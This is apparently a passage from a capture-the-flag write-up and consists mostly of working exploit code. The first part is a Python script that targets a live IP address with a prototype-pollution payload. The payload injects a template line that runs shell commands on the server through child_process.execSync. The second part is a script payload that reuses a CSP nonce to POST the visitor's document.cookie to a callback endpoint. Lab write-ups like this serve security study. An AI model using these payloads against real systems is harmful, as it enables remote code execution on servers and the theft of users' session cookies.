 `script`
```python
import requests 

url = "http://94.237.56.187:34511/"

cmd = "ls -al > /app/static/cc"
res = requests.post(url+'api/submit', json={
    "artist.name":"Haigh",
    "__proto__.block": {
        "type": "Text",
        "line":
        "console.log(process.mainModule.require('child_process').execSync('ls -al > /app/static/cc').toString())"
    }
})
print(requests.get(url+'static/cc').text) 
```

## Cursed Stale Policy

After researching `CSP nonces`, I read and followed the instructions from [here](https://content-security-policy.com/nonce/)

Accordingly, we need to add the `nonce` attribute for the `bot` to `fetch` the data.

`payload`
```javascript
<script nonce="24bcf9506ed5c5cbee23b565f95f1099">
   fetch('/callback', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({ cookies: document.cookie })
   });
</script>
```



